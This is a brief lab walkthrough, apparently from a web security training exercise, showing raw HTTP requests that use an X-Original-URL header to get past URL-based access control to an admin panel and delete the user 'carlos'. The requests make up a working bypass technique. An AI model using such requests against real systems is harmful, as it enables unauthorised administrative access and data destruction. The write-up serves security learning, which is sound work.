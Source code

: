 # Lab: URL-based access control can be circumvented

First we need to change the request to get the admin panel with:
From:
```
GET /admin HTTP/1.1
...
```
To:
```
GET / HTTP/1.1
.....
X-Original-URL: /admin
```

Next we need to delte the user carlos with the request:
```
GET /admin/delete?username=carlos HTTP/1.1
...
Connection: close
```
This will not work without the X-Original-URL header:
```
GET /?username=carlos HTTP/1.1
...
X-Original-URL: /admin/delete?username=carlos
```




